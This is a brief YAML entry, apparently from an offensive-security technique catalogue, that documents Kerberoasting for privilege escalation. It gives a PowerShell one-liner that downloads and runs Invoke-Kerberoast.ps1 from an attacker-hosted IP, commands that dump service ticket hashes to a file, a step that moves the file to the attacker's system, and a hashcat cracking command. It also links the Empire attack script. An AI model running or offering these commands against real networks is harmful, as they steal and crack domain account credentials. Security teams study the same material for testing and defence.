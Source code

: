 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
		(1)	IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
		(2)	Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
		(3) Transfer the file over to attacker's system for cracking
		(4) Choose the account you want to crack and make into a unique file (for speed purposes)
		(5)	hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force
resources: |
  https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
---
```

